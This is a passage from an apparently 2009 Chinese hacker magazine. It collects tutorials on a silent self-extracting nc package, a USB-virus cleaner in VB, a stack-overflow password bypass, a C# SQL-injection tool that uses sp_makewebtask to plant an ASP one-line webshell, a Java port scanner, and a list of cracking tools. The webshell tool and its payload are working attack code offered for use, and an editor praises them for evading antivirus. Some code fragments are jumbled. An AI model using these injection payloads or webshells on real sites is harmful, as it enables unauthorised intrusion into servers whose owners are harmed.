在“PortNumber”=dword:00000133 中，“00000133”是数字“307”的十六进制转换，也就是说端口是 307，但是在 reg 文件中要写成它的十六进制数值。

下面我们来利用 RAR 制作自解压包的安装程序，先检查一下现在已经编译好的软件，一共有：bj.vbs、307.reg、3389.reg、portscan.exe、bj.exe、nc.exe 这 6 个，然后把它们一起压缩到一个 rar 包文件里面，如图 1 所示。

接着打开压缩好的 rar 文件开始制作自解压文件。在自解压的高级设置选项里面设置解压路径名为“%windir%”，解压后运行文件为“%windir%\setup.exe”，然后继续在“模式”、“更新”及“文本和图标”标签处分別按如图 2、图 3、图 4、图 5 所示进行设置。

至此，我们的端口监视报警器算是做完了，大家可以去试验一下！

## 用 VB 编写 U 盘恢复精灵

**从本文您可以学到：**  
利用 VBS 防止 U 盘病毒

学校里面 U 盘病毒泛滥成灾，上课时不时地受到影响，幻灯片放到一半时就自动关闭，晕人……再有就是老师分享资料必须将自己的 U 盘拿上去，一插，就中招了。遇到弱的还倒好，要是厉害的病毒，把 exe 文件头一修改，那才叫惨，自己写的程序全部被感染，只有被迫全部删除，重新生成才拷过文件。今天就来简单编写个 U 盘恢复精灵吧，应付普通的 U 盘病毒侵袭。

首先来看看程序设计的思路：

- 1. 当然是要判断 U 盘所在的位置了，也就是要确定可移动磁盘有哪些，然后由用户选择到底恢复哪个 U 盘。
- 2. 是对可移动磁盘中的 autorun.inf 文件进行删除。
- 3. 是要将 U 盘中被隐藏设置成隐藏和系统属性的文件或者文件夹进行恢复，因为将原有的文件夹隐藏是大多数病毒喜欢玩的伎俩。
- 4. 是要生成一个名为 autorun.inf 的文件夹，对 U 盘病毒进行免疫。
- 5. 是要对 U 盘根目录的几个 exe 文件进行扫描，看看是否与文件夹同名，同名的话就列出来，让用户选择删除，这个是 vdownloader 病毒的一大特色。

如图 1 所示，就是我所编写的程序，所需要的控件有：按钮一个，列表框两个，一个可移动磁盘列表，一个可疑文件列表，标签 4 个。下面就运行你的 VB，我们开始动手了哦！

图 1　程序运行图  
图 3　模式标签的设置  
图 4　更新标签的设置

### 写在后面的话

其实，这个程序是很容易编写的，适合于新手的朋友拿来做练习。不过这不是写这篇文章的本意，不希望刚入门的新人整天沉溺在琢磨如何刷 Q 钻、如何盗 Q 币上，那样不会对你们有任何提高的。另外，也就是传达一种编程的思想：比如 NC 本来是入侵的工具，我们这次用到的核心命令也是一个后门命令，可是只要你稍微转变一下思路，一个防御工具便在你的手中诞生了，与原来的本性截然相反。好了，希望大家喜欢这篇文章，也欢迎在论坛和我交流，我的 ID 是夜翼。

（文中所涉及的相关代码及工具都已经收录在光盘中）

图 5　文本和图标标签的设置

> **编辑点评：**  
> 正如作者所说，黑客工具是把双刃剑，既可以攻，亦可以守，那就要看使用这把剑的人的功力了。

### 一、判断可移动磁盘所在的位置

大家看看我在 Form_Load 事件中添加的代码，以此来判断哪些磁盘是可移动磁盘：

```vb
Private Sub Form_Load()
On Error Resume Next    ' 容错语句，防止程序因为错误而崩溃
Dim fso    ' 声明 fso 对象
Set fso = CreateObject("scripting.filesystemobject")    ' 建立 fso 对象
If fso.folderexists("c:\") Then    ' 如果 c 盘存在
    Set qudong = fso.getfolder("c:\")    ' qudong 为获得的对象 c 盘
    If qudong.Type = "可移动磁盘" Then    ' 如果 qudong 的类型是可移动磁盘
        List1.AddItem "C 盘是可移动磁盘"    ' 在列表框一中添加上 C 盘
    End If
End If
If fso.folderexists("d:\") Then    ' 方法和上面一样，这里是判断 D 盘
    Set qudong = fso.getfolder("d:\")
    If qudong.Type = "可移动磁盘" Then
        List1.AddItem "D 盘是可移动磁盘"
    End If
End If
' ……
' 此处代码省略，用同样的方法判断 E、F、G、H、I 盘是否为 U 盘
List1.Selected(0) = True    ' 然后列表 1 中默认选中第一项
End Sub
```

### 二、删除 autorun.inf 文件并建立文件夹

在列表框中列出所有 U 盘后，我们要对选中的 U 盘进行恢复。这里先来删除 autorun.inf 文件，我们为 Button1_Click 事件添加如下代码：

```vb
If List1.ListCount = 0 Then    ' 如果列表 1 中没有项目，则表明没有插入 U 盘
    MsgBox "没有检测到 U 盘，请插入您的 U 盘并按恢复", vbInformation, "U 盘恢复精灵"
Else
    ' 如果检测到 U 盘
    Set fso = CreateObject("scripting.filesystemobject")    ' 建立 fso 对象
    Upan = fso.getfolder(Mid(List1.Text, 1, 1) & ":\")    ' 得到 U 盘的路径
    If fso.fileexists(Upan & "autorun.inf") Then    ' 如果 autorun.inf 文件存在
        Kill Upan & "autorun.inf"    ' 直接删除
    End If
End If
```

接下来是建立 autorun.inf 文件夹进行免疫，代码如下：

```vb
If Not fso.folderexists(Upan & "autorun.inf") Then  ' 如果文件夹不存在则
    fso.createfolder (Upan & "autorun.inf")
End If
```

接下来我们还会为这个文件夹设置隐藏和系统属性。

下面的代码是将 autorun.inf 文件夹设置成为系统文件夹，并且隐藏：

```vb
mingling = "attrib " & Upan & "autorun.inf" & " +s +h"
Shell "cmd.exe /c " & mingling, vbHide
```

### 三、取消所有文件和文件夹的隐藏和系统属性

这里我们为了方便，直接调用 Windows 中自带的一个程序来修改文件及文件夹属性，那就是 attrib.exe，在 cmd 中键入 attrib /? 可以看到相关的一些参数：

```text
ATTRIB [+R | -R] [+A | -A] [+S | -S] [+H | -H] [[drive:] [path] filename] [/S [/D]]
```

- `+` 设置属性。
- `-` 清除属性。
- `R` 只读文件属性。
- `A` 存档文件属性。
- `S` 系统文件属性。
- `H` 隐藏文件属性。
- `[drive:][path][filename]` 指定要处理的文件属性。
- `/S` 处理当前文件夹及其子文件夹中的匹配文件。
- `/D` 也处理文件夹。

例如我们要取消 E:\test 文件夹的隐藏和系统文件夹属性，只需要执行命令 `attrib E:\test -s -h` 就可以了。知道了命令，我们来看 Button1_Click 事件中加入的代码：

```vb
Set wenjianjia = fso.getfolder(Upan)  ' wenjianjia 是获取 U 盘所在的根目录路径
For Each Upanfolder In wenjianjia.subfolders  ' 对于每一个位于根目录的文件夹
    If Upanfolder <> Upan & "autorun.inf" Then  ' 跳过对 autorun.inf 文件夹进行设置，这个用于免疫
        mingling = "attrib " & Upanfolder & " -s -h"
        Shell "cmd.exe /c " & mingling, vbHide
    End If
Next

' 下面是更改文件属性：
For Each Upanfile In wenjianjia.Files  ' 对于每一个在 U 盘根目录的文件
    mingling = "attrib " & Upanfile & " -s -h"  ' 取消其隐藏属性
    Shell "cmd.exe /c " & mingling, vbHide  ' shell 执行命令
    houzhui = fso.getextensionname(Upanfile)  ' 取得文件的后缀名
    name1 = fso.getbasename(Upanfile)  ' 取得文件去后缀后的名字
    If houzhui = "exe" Then  ' 如果文件类型是 exe
        If fso.folderexists(Upan & name1) Then  ' 判断是否存在同名文件夹
            MsgBox "发现危险对象：" & Upanfile, vbInformation, "U盘恢复精灵"
            List2.AddItem Upanfile  ' 在列表2中添加上危险对象
        End If
    End If
Next
```

### 四、为处理危险对象设置快捷菜单

首先新建一个菜单，如图 2 所示，只要有删除此文件（delthisfile）和删除所有文件（deleteall）就可以了。然后为 List2_MouseDown 事件添加代码如下：

```vb
PopupMenu dealvirus  ' 弹出病毒操作的菜单
```

我们给删除此文件和删除所有文件添加的代码如下：

```vb
' 删除选中的这个文件
If List2.Text <> "" Then  ' 如果列表2中的内容不为空
    Set fso = CreateObject("scripting.filesystemobject")  ' 建立 fso 对象
    fso.deletefile (List2.Text)  ' 删除列表中选中的文件
    List2.RemoveItem List2.ListIndex  ' 将列表中的此项删除
    List2.Refresh  ' 刷新列表2
End If

' 删除所有的文件
If List2.ListCount <> 0 Then  ' 如果列表2中的项目数不为0
    Set fso = CreateObject("scripting.filesystemobject")  ' 建立 fso 对象
    For i = 1 To List2.ListCount  ' 从1一直循环到项目总数
        fso.deletefile (List2.List(0))  ' 删除最上面一项的内容
        List2.RemoveItem (0)  ' 删除列表2中最上面一项
        List2.Refresh  ' 刷新列表2
    Next
End If
```

### 五、总结

到此我们就简单地打造了一个属于自己的 U 盘恢复工具，同时还可以实现 U 盘病毒的免疫。当然了，由于我们是调用的 Attrib.exe 来设置文件和文件夹属性，对 CPU 的消耗是巨大的，一般情况下，有大概 2 秒钟的时间 CPU 消耗达到 100%，这也是程序的一大缺憾。我的论坛 ID 是冰域剑客，欢迎大家与我交流。（文章中所涉及的相关代码及工具都已经收录在光盘中）

> 编辑点评：自 U 盘小偷以来，U 盘病毒已经存在很长一段时间了，其已经成为了病毒传播的一种主要途径，防止 U 盘传染就可以防止近四分之一的病毒。

## 漫话溢出 II

从本文您可以学到：  
了解溢出及利用溢出破解密码验证

唉，天可真凉，一不小心，耳朵冻了，脚膀也冻了，恨不得整个人都要被冻成冰雕。不过还好，脑袋没冻着，因此还可以站在这里胡说八道。

这次要谈的内容，只要看到底，保证血流舒畅，暖意融融，不过会不会出现高原缺氧反应，在下就不敢保证了。对于溢出有点了解的读者，这次要讲的内容应该觉得比较顺畅，没接触过的，也不用担心，请戴好氧气罩，准备启程。上次我们谈的是 egg 的编写，而这次，我们将潜入机器码中，一窥洞里乾坤。

## CrackMe，热身运动

下面是一个简单的 CrackMe 程序的源代码：

```c
/// crack_me.c
#include <stdio.h>
#define PASSWORD "1234567"

int verify_password(char *password)
{
    int authenticated;
    authenticated = strcmp(password, PASSWORD);
    return authenticated;
}

main()
{
    char password[1024];
    while(1)
    {
        ...
    }
}
```

## 密码验证

```c
printf("please input password: ");
scanf("%s", password);

if (verify_password(password))
{
    printf("INCORRECT!\n\n");
}
else
{
    printf("CORRECT!\n");
    break;
}
```

验证过程简单明了到了极点，要是输入的字符串是“1234567”就输出“CORRECT!”，否则就输出“INCORRECT!”。

破解这种程序是十分简单的，既可以动态调试，也可以“动静结合”。这里以“动静结合”为例，首先将 crack_me.exe 载入 IDA，由于它是用 C 编写的，因此程序十分精简，从 main() 向下看，就可以看到验证过程，反汇编代码如下：

```asm
.text:00401046 loc_401046:              ; CODE XREF: _main+3Dj
.text:00401046 push    offset s_PleaseInputPa ; "please input password: "
.text:0040104B call    _printf
.text:00401050 lea     eax, [esp+404h+var_400]
.text:00401054 push    eax
.text:00401055 push    offset s_S          ; "%s"
.text:0040105A call    _scanf
.text:0040105F lea     ecx, [esp+40Ch+var_400]
.text:00401063 push    ecx
.text:00401064 call    sub_401000
.text:00401069 add     esp, 10h
.text:0040106C test    eax, eax
.text:0040106E jz      short loc_40107F
.text:00401070 push    offset s_Incorrect  ; "INCORRECT!\n\n"
.text:00401075 call    _printf
.text:0040107A add     esp, 4
.text:0040107D jmp     short loc_401046

.text:0040107F loc_40107F:              ; CODE XREF: _main+2Ej
.text:0040107F push    offset s_Correct    ; "CORRECT!\n"
.text:00401084 call    _printf
.text:00401089 add     esp, 404h
.text:0040108F retn
```

这下该看明白了吧？“jz short loc_40107F”就是关键跳，把它改成 jnz 就行了。下面，我用 Immunity Debugger 载入 crack_me.exe，在关键跳处下一个断点，运行程序，程序在关键跳之前被断了下来，如图 2 所示。

这个时候，我们既可以像刚刚说的那样修改汇编指令，也可以将 z 标志位的值修改为 1，这样也可以达到同样的效果。

也许你一直有疑问，不是说要讲溢出吗？这和溢出有关系吗？这里难道存在溢出漏洞吗？这只是个热身，不要着急，请接着看。

当然，你也可以直接用 W32Dasm 的字符串参考来定位验证过程的位置，这里用 IDA 是因为其结果往往更详细。如果你还是觉得这看上去一团糟，也可以看看程序的流程图，如图 1 所示，这样更直观。

## 栈，卡片游戏

上面的 crack_me.exe 不存在溢出漏洞，毕竟这个程序太简单了，要是这样都能被溢出利用，微软算是没法活了。不过稍作修改，一个溢出漏洞便产生了，请看下面的程序代码：

```c
// stack_overflow.c
#include <stdio.h>
#define PASSWORD "123456"
int verify_password(char *password)
{
    int authenticated;
    char buffer[8]; // 先验缓冲区
    authenticated = strcmp(password, PASSWORD);
    strcpy(buffer, password); // 存在溢出漏洞
    return authenticated;
}
```

图3　断点关键跳

```c
main()
{
    char password[1024];
    while(1)
    {
        printf("Please input password: ");
        scanf("%s", password);
        if(verify_password(password))
        {
            printf("INCORRECT!\n\n");
        }
        else
        {
            printf("CORRECT!\n\n");
            break;
        }
    }
}
```

```asm
.text:004010FA loc_4010FA:
.text:004010FA                 push    offset s_Correct ; "CORRECT!\n"
.text:004010FF                 call    _printf
.text:00401104                 add     esp, 4
.text:00401107                 jmp     short loc_40110B
```

结合源代码看，只要 verify_password(char *password) 返回的 authenticated 为 0，就输出“CORRECT!”，即输入的密码正确，否则就输出“INCORRECT!”。现在要解决的问题很明了了，就是要将 authenticated 的值修改为 0。

栈中最主要的操作有 2 个：push 和 pop，这 2 个操作可以类比发牌和起牌。一般情况下，局部变量都是按顺序相邻排列的，就好像是你在发牌时不能把牌插入一堆牌的中间一样。由此可以推测出，buffer 和 authenticated 应该是相邻分布的。

下面我们具体分析一下，首先看下 IDA 中给出的信息，很容易就看到了这个程序中溢出漏洞的祸根。

必须注意的是，这段代码得放在 VC6 的 Debug 环境下来生成应用程序，否则测试的时候会不成功。后来的编译器会对程序中的一些问题进行过滤。

这个程序和 crack_me.exe 的区别很小，它也可以按照破解 crack_me.exe 的方法来破解，如图 3 所示。

这个程序存在溢出漏洞，我们不妨换个思路来思考。在 IDA 中看看它的验证过程，可以看到，两个验证过程大同小异。

```asm
.text:004010AE loc_4010AE:      ; CODE XREF: sub_401090:loc_401109
.text:004010AE                 mov     eax, 1
.text:004010B3                 test    eax, eax
.text:004010B5                 jz      short loc_40110B
.text:004010B7                 push    offset s_PleaseInputPa ; "Please input password: "
.text:004010BC                 call    _printf
.text:004010C1                 add     esp, 4
.text:004010C4                 lea     ecx, [ebp+var_400]
.text:004010CA                 push    ecx
.text:004010CB                 push    offset s_S        ; "%s"
.text:004010D0                 call    _scanf
.text:004010D5                 add     esp, 8
.text:004010D8                 lea     edx, [ebp+var_400]
.text:004010DE                 push    edx
.text:004010DF                 call    sub_401005
.text:004010E4                 add     esp, 4
.text:004010E7                 test    eax, eax
.text:004010E9                 jz      short loc_4010FA
.text:004010EB                 push    offset s_Incorrect ; "INCORRECT!\n\n"
.text:004010F0                 call    _printf
.text:004010F5                 add     esp, 4
.text:004010F8                 jmp     short loc_401109
```

```asm
.text:00401046                 add     esp, 8
.text:00401049                 mov     [ebp+var_4], eax
.text:0040104C                 mov     ecx, [ebp+arg_0]
.text:0040104F                 push    ecx                ; char *
.text:00401050                 lea     edx, [ebp+var_C]
.text:00401053                 push    edx                ; char *
.text:00401054                 call    _strcpy
```

这个 strcpy() 函数没有对字符串的长度进行检测就直接复制到目标，从而导致了溢出漏洞。用 Immunity Debugger 载入 stack_overflow.exe，在 strcpy() 处下断点，运行程序，成功地被中断下来，如图 4 所示。

图4　authenticated 溢出覆盖

在图 4 中注释的地方，可以看到在字符串 “Orpheous\0” 后面跟了个 0x00000001，由于我们输入的密码是错误的，因此 authenticated 的值应该为 1。

下面我们可以通过试验说明 0x00000001 就是 authenticated。将 0x00000001 修改为 0x00000000，继续运行，程序输出“CORRECT!”，说明我们的猜想是正确的。

路，多一条出路，这在另一方面也说明了很多东西都是相通的。发挥你的想像力，溢出能做到的，别的技巧也同样能做到。无穷了，也不要总闷在家里，出去转转，你能看到很多，也能想到很多。（文章中所涉及的相关代码及工具都已经收录在本期光盘中）

**编辑点评：** 用简单的密码验证说明溢出问题的严重性，又用 strcpy 实现了溢出确确实实存在，本文通俗易懂，建议初学者可以一看。

## C#打造 SA 另类入侵工具

梦幻剑客

从本文您可以学到：

- 利用 sp_makewebtask 生成一句话木马得到 webshell

某天在“邪恶八进制”浏览的时候发现一个帖子，大致地看了下，说可以利用 MSSQL sp_makewebtask 扩展存储功能获得 webshell，但是前提是需要 SA 权限。

对于是 SA 权限来说，可以获得 webshell 的办法比较多了，常规的思路就是利用 xp_cmdshell 扩展存储功能操作 asp 文件，追加一句话木马等方法获得 webshell。还有种思路是当服务器将 xp_cmdshell 存储功能删除后，可利用 sp_oacreate 配合 FileSystemObject 组件进行获取 webshell。

上述两种思路对于一般情况下获取 webshell 也足够了，可是有时候碰到的服务器很 BT，有些方法不能奏效的时候不妨用本文介绍的另一种存储过程 sp_makewebtask。

此存储过程主要功能是创建一项生成 HTML 文档的任务，该文档包含执行过的查询返回的数据。这些操作都属于 SQL 作业分类，被视为 Web 助手。

关于语法我就不多说了，因为是系统默认的存储过程，很大程度上都限定死了，我把在网络上找到的语法格式贴出来：

```sql
sp_makewebtask [@outputfile =] 'outputfile', [@query =] 'query'
    [,[ @fixedfont =] 'fixedfont']
    [,[ @bold =] bold]
    [,[ @italic =] italic]
    [,[ @colheaders =] colheaders]
    [,[ @lastupdated =] lastupdated]
    [,[ @HTMLheader =] HTMLheader]
    [,[ @username =] username]
    [,[ @dbname =] dbname]
    [,[ @templatefile =] 'templatefile']
    [,[ @webpagetitle =] 'webpagetitle']
    [,[ @resultstitle =] 'resultstitle']
    [
      [,[ @URL =] 'URL', [@reftext =] 'reftext']
      | [,[ @table_urls =] table_urls, [@url_query =] 'url_query']
    ]
    [,[ @whentype =] whentype]
    [,[ @targetdate =] targetdate]
    [,[ @targettime =] targettime]
    [,[ @dayflags =] dayflags]
    [,[ @numunits =] numunits]
    [,[ @unitype =] unitype]
    [,[ @procname =] procname]
    [,[ @maketask =] maketask]
    [,[ @rowcnt =] rowcnt]
    [,[ @tabborder =] tabborder]
    [,[ @singlerow =] singlerow]
    [,[ @blobfmt =] blobfmt]
    [,[ @nrowsperpage =] n]
```

```text
[, [@datachg =] table_column_list]
[, [@charset =] characterset]
[, [@codepage =] codepage]
```

语法又臭又长，我这里就不多说了，说的话一篇文章也写不完。想成功利用此存储过程必须满足以下条件：

- 1. 权限当然必须是 SA 的，因为 sp_makewebtask 对其它的权限拒绝。
- 2. MSSQL 对多语句要支持。
- 3. Web 和数据库没有分离的情况下。
- 4. sp_makewebtask 扩展存储没有被删除。

貌似需要的条件还是比较多的，但是细细想来大多数主机都会支持上面的条件。原理部分就那么多了，接下来我用 C# 语言来打造一款利用工具。打开 VS2005 新建一个项目，在代码部分的头部加上如下的命名空间：

```csharp
using System.Data.SqlClient;
using System.Text.RegularExpressions;
```

在设计界面选择 4 个 TextBox、2 个 Label、2 个 Button、2 个 Label、2 个 RadioButton。需要注意的是，首先是导入一个正则表达式命名空间：using System.Text.RegularExpressions;，用来方便接下来对网站地址合法性的判断。判断代码如下：

```csharp
public bool url(string sqlurl)
{
    return Regex.IsMatch(sqlurl, "http(s)?://([\\w-]+\\.)+[\\w-]+(/[\\w-./?%&=]*)?");
}
```

返回类型是 Bool 类型，接下来是定义 checknull 函数来判断是否为空。

```csharp
public bool checknull()
{
    bool fh = true;
    if (sqlurl == "")
    {
        MessageBox.Show("请输入网站注入地址！", "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
        fh = false;
    }
    else if (lj == "")
    {
        MessageBox.Show("请输入路径地址！", "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
        fh = false;
    }
    return fh;
}
```

点击“浏览”按钮，如图 1 所示，在 button_click 事件中加入以下代码：

## 快速加鞭

```csharp
private void view_Click(object sender, EventArgs e)
{
    if (sqlurl == "")
    {
        MessageBox.Show("请输入网站地址!", "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
    }
    else if (url(sqlurl) != true) // 判断符合正则表达式规则
    {
        MessageBox.Show("不是合法的网址地址!", "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
        dizhi.Text = "http://";
        dizhi.Focus(); // dizhi.TextBox 控件获得焦点。
    }
    else
    {
        webBrowser1.Navigate(sqlurl); // 打开网站
    }
}
```

在 Form_Load() 事件中写入如下代码：

```csharp
private void Form1_Load(object sender, EventArgs e)
{
    dizhi.Text = "http://www.jk1986.cn";
    webBrowser1.Navigate(dizhi.Text); // 默认情况下打开这个地址
}
```

同样也可以用 System.Diagnostics.Process.Start("iexplore.exe", "http://www.jk1986.cn")，来替代上面的 Form_Load 事件中的代码。

接下来在“提交”按钮上添加如下代码：

```csharp
private void bc_Click(object sender, EventArgs e)
{
    if (url(sqlurl) != true)
    {
        MessageBox.Show("不是合法的网址地址!", "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
        dizhi.Text = "http://";
        dizhi.Focus();
        return;
    }
    if (checknull() != false)
    {
        if (lj.Substring(lj.LastIndexOf(".") + 1, 3) == "asp")
        {
            // 利用 Substring 截取字符串
            if (sz.Checked == true || zf.Checked == true)
            {
                if (sz.Checked == true)
                {
                    try
                    {
                        webBrowser1.Navigate(sqlurl + "' exec sp_makewebtask '" + lj + "','select 1' + muma + "' '");
                        MessageBox.Show("注入成功，连接 Shell 看看!", "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
                    }
                    catch (Exception err)
                    {
                        MessageBox.Show(err.Message, "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
                    }
                }
                else if (zf.Checked == true)
                {
                    try
                    {
                        webBrowser1.Navigate(sqlurl + "' exec sp_makewebtask '" + lj + "','select' + muma + "' '");
                        MessageBox.Show("注入成功，连接 Shell 看看!", "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
                    }
                    catch (Exception err)
                    {
                        MessageBox.Show(err.Message, "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
                    }
                }
                else
                {
                    MessageBox.Show("请输入完整信息!", "提示");
                }
            }
            else
            {
                MessageBox.Show("请选择注入类型!", "提示");
            }
        }
        else
        {
            MessageBox.Show("为了更准确，请确保是 asp 文件!", "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
        }
    }
}
```

```csharp
catch (Exception err)
{
    MessageBox.Show(err.Message, "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
}
else
{
    MessageBox.Show("请输入完整信息!", "提示");
}
else
{
    MessageBox.Show("请选择注入类型!", "提示");
}
else
{
    MessageBox.Show("为了更准确，请确保是 asp 文件!", "提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
}
```

接下来两个文本框分别获得各自的代码：

```csharp
private void dizhi_TextChanged(object sender, EventArgs e)
{
    sqlurl = dizhi.Text.ToString().Trim();
}

private void filepath_TextChanged(object sender, EventArgs e)
{
    lj = filepath.Text.Trim();
}

private void daima_SelectedIndexChanged(object sender, EventArgs e)
{
    muma = daima.Text.Trim();
}

private void dizhi_Click(object sender, EventArgs e)
{
    dizhi.Text = "";
}
```

运行一下看看，如图 2 所示。

运行是成功了，我们来实际测试一下，如图 3、图 4 所示。已经成功生成了一个 jk.asp 文件，里面内容如图 5 所示。

一句话木马已经成功写入文件，利用以上代码就可通过 C# 打造一款 SQL 入侵辅助工具，程序还是比较简单的。我想，利用 VB 来做这个软件应该和 C# 差不多，只不过 C# 在效率方面确实比 VB 高点。上述代码重要的部分我都已经注释了，我想大家都能看懂，有什么不明白的地方欢迎到“黑手”论坛上交流。

（文章中所涉及的相关代码及工具都已经收录在本期光盘中）

> **编辑点评：**
>
> 利用网上的信息实现自己的一句话木马，虽然不是原创，但可以当做原创。面对杀毒软件时再也不用怕了，因为仅此一个，不会被列入黑名单的，哈哈！

```html
<META content="text/html; charset=utf-8" http-equiv=Content-Type>
<TITLE>Microsoft SQL Server Web 助手</TITLE>
</HEAD>
<BODY>
<H1>查询结果</H1>
<HR>
<PRE><I>上次更新时间：2009-01-18 12:37:10.937</I></PRE>
<P>
<P><TABLE BORDER=1>
<TR><TH>文件</TH></TR>
<TR><TD><I><script language="vbs" runat="server">execute request("value")</script></I></TD></TR>
</TABLE>
```

## JAVA 实现 TCP 端口扫描

■ 曾云龙

- 从本文您可以学到：
- 利用 Java 的相关类实现有连接的 TCP 端口扫描

### 萌生想法

见过许多扫描端口的工具，如啊D、S 扫描器、XScan 等，都是功能很多很实用的东西，让小菜我很是羡慕，就想如果什么时候自己能编出一个扫描端口的工具那该多好啊。

终于在学完了 Java 的网络编程基础部分后，知道了 Java 的一个 Socket 类，称为套接字，应用在 TCP/IP 协议的传输层。使用此类，可以在客户端与服务器之间建立连接，然后按 TCP 协议进行双向通信。如果我这台计算机要和其他人的计算机进行通信，就要和他的计算机建立套接字，除非他的某个端口开放，我才能和他通信；否则就要抛出异常。把每个端口都和他建立套接字，就能知道他的计算机开放了哪些端口。当然，由于 Socket 是基于连接的套接字，只能对 TCP 端口进行扫描。

### 程序编写

断断续续奋战若干天，终于完成了我最简单的 Java 端口扫描器，想拿出来和大家共同探讨，高手勿笑啊！如图1所示，是我用 Java 编的一个实现 TCP 端口扫描的软件界面。

因为是基于网络的编程，可以扫描远程主机的端口，所以在程序的开始我们首先要引入 java.net 包，这个包为网络各层次的编程提供了相关的类。

由于计算机端口号的范围是从 0 到 65535，这么多的端口如果用单线程的话，是非常慢的，所以我在程序中定义了一个 TCPThread 类，继承 Thread 类，具体代码如下：

```java
import java.net.*;

// 定义TCPThread类，继承Thread类，为了实现多线程扫描端口而定义的一个类
class TCPThread extends Thread
{
    public static InetAddress hostAddress; // 声明一个InetAddress对象，用于获取输入的IP地址或域名
    public static int MIN_port; // 声明一个int对象，用于获取输入的最小端口数
    public static int MAX_port; // 声明一个int对象，用于获取输入的最大端口数
    private int threadnum; // 声明一个int对象，记录第几个线程开始启动

    public TCPThread(String name,int threadnum)
    {
        super(name);
        this.threadnum = threadnum;
    }

    // 线程启动的时候自动调用run方法，run方法中的内容就是线程启动后要执行的操作
    public void run()
    {
        int i; // 定义循环变量
        Socket sock; // 声明套接字对象
        for (i = MIN_port+threadnum; i <= MAX_port; i += 200)
        {
            javatcpportscan.lstatus.setText("状态:正在扫描 "+i+" 端口");
            try
            {
                sock = new Socket(hostAddress,i); // 创建套接字实例，对指定IP的端口进行连接
                sock.close(); // 关闭连接字
                javatcpportscan.tea.append("端口 "+String.valueOf(i)+" 开放\n"); // 如果扫描的主机的第 i 个端口开放的话，就在文本域中输出端口开放的信息，否则抛出异常，转到 catch 部分执行，当然，我在 catch 对异常没有做处理，不会把端口没有开放的信息输出出来
            }
            catch (IOException e1)
            {
            }
        }
        javatcpportscan.lstatus.setText("状态:端口扫描完毕!");
    }
}
```

这个类写完后，我们就要想该怎么来调用这个类了，当然要对用户的不合法输入进行相关提示了，所以在用户点击“确定”按钮时，要进行以下方面的判断：

- 1. IP 或域名是否正确；
- 2. 最小端口号是否在 0 到 65535 之间；
- 3. 最大端口号是否在 0 到 65535 之间；
- 4. 最小端口号是否小于最大端口号；
- 5. 由于是用多线程扫描，最大端口号与最小端口号之差等于 200；
- 6. 判断最上面 IP 或域名、最小端口数、最大端口数文本框是否为空。

具体代码如下：

```java
if(e.getActionCommand()=="确定"){
    int minport; // 获取文本框中输入的最小端口数
    int maxport; // 获取文本框中输入的最大端口数
    int maxthread=200; // 指定线程数
    tea.setText(""); // 设置文本域初始状态为空
    // 判断 IP 或域名文本框是否为空，输入是否正确
    if(tf[0].getText().length()==0){
        JOptionPane.showMessageDialog(null,"请输入要扫描的 IP 或域名！");
        return;
    }
    try{
        TCPThread.hostAddress=InetAddress.getByName(tf[0].getText());
    }
    catch(UnknownHostException e2){
        JOptionPane.showMessageDialog(null,"IP/域名或地址错误！");
        return;
    }
    // 判断最小端口数与最大端口数文本框是否为空，输入是否正确
    if((tf[1].getText().equals("")&&!tf[2].getText().equals(""))||(!tf[1].getText().equals("")&&tf[2].getText().equals(""))||(tf[1].getText().equals("")&&tf[2].getText().equals(""))){
        JOptionPane.showMessageDialog(null,"请输入端口号！");
        return;
    }
```

```java
try{
    minport=Integer.parseInt(javatcpportscan.tf[1].getText());
    maxport=Integer.parseInt(javatcpportscan.tf[2].getText());
}
catch(NumberFormatException e1){
    JOptionPane.showMessageDialog(null,"端口号错误！端口号必须为整数！");
    return;
}
if(minport<0 || minport>65535 || minport>=maxport){
    JOptionPane.showMessageDialog(null,"端口界于0-65535！！");
    return;
}
else TCPThread.MIN_port=minport;
if(maxport<0 || maxport>65535 || maxport<minport){
    JOptionPane.showMessageDialog(null,"端口界于0-65535！！");
    return;
}
else TCPThread.MAX_port=maxport;
// 判断最大端口数与最小端口数之差是否为 200
if(!((maxport-minport)%200==0)){
    JOptionPane.showMessageDialog(null,"最大端口数与最小端口数之差为200的倍数！！");
    return;
}
javatcpportscan.tea.append("正在扫描 "+javatcpportscan.tf[0].getText()+" 的端口\n");
// 利用 for 循环，依次启动 200 个线程
for(int i=0;i<maxthread;i++){
    new TCPThread("T"+i,i).start(); // 启动第 i 个线程
}
```

这样简单的端口扫描程序随着点击“确定”按钮就实现了，看起来很简单的哦！当然，我们还可以实现对 UDP 端口的扫描，但这时就不能再用基于连接的套接字了，应该是用基于无连接的数据报通信了，要和扫描的主机建立无连接的套接字，这个我没有深究，在这里就不多说了。

> 刚开始学 Java，没什么技术含量，只为新手提供点学习资料，为和大家共同学习，结交一些志同道合的朋友，不要见笑哦。

（文章中所涉及的相关代码及工具都已收录在本期光盘中）

**编辑点评：** 基础类的东西相对比较简单，相信对任何编程语言稍有了解的侠客们都是能看懂的。

## Cracker 10086

大家好，拿到本刊的时候，已经是过完元宵节了。逝去的 2008 年，国内发生了不少事情，但是从中也可以看到国人的那种坚强不屈的精神，非常值得我们学习。现在无论前面如何，都已经是 2009 年了，新年伊始，对于 2009 年你又有怎么样的规划呢？如果你还是学生，那么在这一年你想获得怎么样的劳动成果呢？如果你已经迈向工作岗位，那么你又怎么打算 2009 年的日子呢？是充实还是颓废？有个目标很重要，计划好你的目标，然后努力地去尝试，那么 2009 年你就是最优秀的了。

## 每月破资源

### 1、ACKiller 0.31 全系列脱壳机

此脱壳机能够支持以下 ACP 版本：

- ACProtect 1.06
- ACProtect 1.07
- ACProtect 1.09
- ACProtect 1.09c
- ACProtect 1.09e
- ACProtect 1.09g
- ACProtect 1.10
- ACProtect 1.20
- ACProtect 1.21
- ACProtect 1.22
- ACProtect 1.22b
- ACProtect 1.22c
- ACProtect 1.23
- ACProtect 1.30
- ACProtect 1.3b
- ACProtect 1.31
